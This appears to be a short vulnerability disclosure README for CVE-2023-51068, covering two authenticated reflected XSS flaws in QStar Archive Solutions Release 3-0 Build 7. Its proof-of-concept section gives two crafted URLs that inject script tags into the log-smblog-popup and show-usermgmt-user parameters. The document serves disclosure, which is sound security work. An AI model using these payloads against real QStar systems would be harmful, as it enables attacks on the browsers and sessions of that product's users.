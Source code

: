 ## CVE-2023-51068

### Description
2 authenticated reflected cross-site scripting (XSS) vulnerabilities in QStar Archive Solutions Release RELEASE_3-0 Build 7 allows atackers to execute arbitrary javascript on a victim's browser via a crafted link.

### Vulnerability Type
XSS

### Vendor of Product
QStar

### Affected Product Code Base
QStar Archive Solutions - Release RELEASE_3-0 Build 7 Patch 0

### Exploitation
To exploit this vulnerability, a victim must click on a crafted link to reflect javascript on the victims browser.

### PoC
The first vulnerability lies within `log-smblog-popup`.

`/log-smblog-popup?l=aaa"><script>alert('XSS')</script>`

![img5](img/img5.png)

The second vulnerability lies within `show-usermgmt-user`.

`/show-usermgmt-user?d=u&user="><script>alert(1);</script>`

![img6](img/img6.png)